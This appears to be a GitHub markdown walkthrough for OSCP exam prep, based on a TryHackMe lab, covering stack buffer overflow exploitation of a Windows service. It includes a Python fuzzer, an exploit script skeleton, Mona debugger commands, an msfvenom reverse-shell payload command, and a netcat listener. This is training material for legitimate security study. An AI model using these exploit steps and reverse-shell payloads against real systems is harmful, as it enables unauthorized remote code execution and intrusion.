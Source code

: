 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

#### Step 1: Ensure Mona is installed in Immunity Debugger

#### Step 2: Launch Immunity Debugger, open relevant application, and run the program with the red play button

#### Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

#### Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
#### Step 5: Create exploit.py skeleton:
 
Example exploit.py :
 
 ```
 import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```
  
#### Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

#### Step 7: Paste output from Step 6 into payload variable of exploit.py
  
#### Step 8: Restart application and run the program in Immunity, Run exploit.py from attack machine
 
#### Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
*PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*

*Look for a line in the output that states: EIP contains normal pattern : ... (offset XXXX)*
 
#### Step 10: Set offset variable of exploit.py as the offset found in Step 9
 
#### Step 11: Set retn variable to "BBBB" in exploit.py

#### Step 12: Restart application and run the program in Immunity; Run exploit.py
  
#### Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
#### Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

#### Step 15: Run Bad Characters Script

#### Step 16: Paste Bad Characters output into payload variable of exploit.py

#### Step 17: Re-open application in Immunity but do NOT run the program

#### Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

#### Step 19: Run the program in Immunity; Run exploit.py on attack machine

#### Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

#### Step 21: Remove first bad character in the list generated in Step 20 from payload variable in exploit.py

#### Step 22: Reopen Application in Immunity but do not run the program

#### Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

#### Step 24: Repeat steps 18-21 until Step 19 says "Unmodified" in the Immunity logs (These are the bad characters)

#### Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb "[BAD-CHARACTERS]"
```
*Most likley, no output will be generated. View Logs in Immunity to see jump point*

#### Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

#### Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```
*Remove quotation marks "" and Wrap output/payload variable in parentheses ()*


#### Step 28: Paste generated payload into payload variable of exploit.py

#### Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

#### Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

#### Step 31: Restart application in Immunity, Run it, and run exploit.py from attack machine

#### Step 32: Check listener, it should have a shell



## Reference

* https://tryhackme.com/room/bufferoverflowprep#
